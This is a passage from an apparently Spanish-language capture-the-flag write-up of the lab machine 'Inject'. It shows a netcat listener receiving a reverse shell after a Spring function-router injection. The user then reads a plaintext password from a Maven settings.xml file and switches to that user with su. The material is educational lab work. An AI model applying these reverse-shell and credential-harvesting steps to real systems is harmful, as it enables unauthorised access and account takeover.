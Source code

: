 ```bash
* Closing connection
{"timestamp":"2024-06-02T19:00:11.233+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

- Recibimos la `shell`.

```bash
➜  ~ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.55] from (UNKNOWN) [10.10.11.204] 42862
bash: cannot set terminal process group (827): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ whoami
whoami
frank
frank@inject:/$
```

## Shell as phil

- Si recordamos tenemos la contraseña de **phil** de primeras no pudimos conectarnos por `ssh` pero si podemos migrar a ese usuario desde la `shell`.

```bash
frank@inject:~/.m2$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
frank@inject:~/.m2$
```

- Funciona.

```bash
frank@inject:~/.m2$ su phil
Password:
phil@inject:/home/frank/.m2$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
phil@inject:/home/frank/.m2$
```
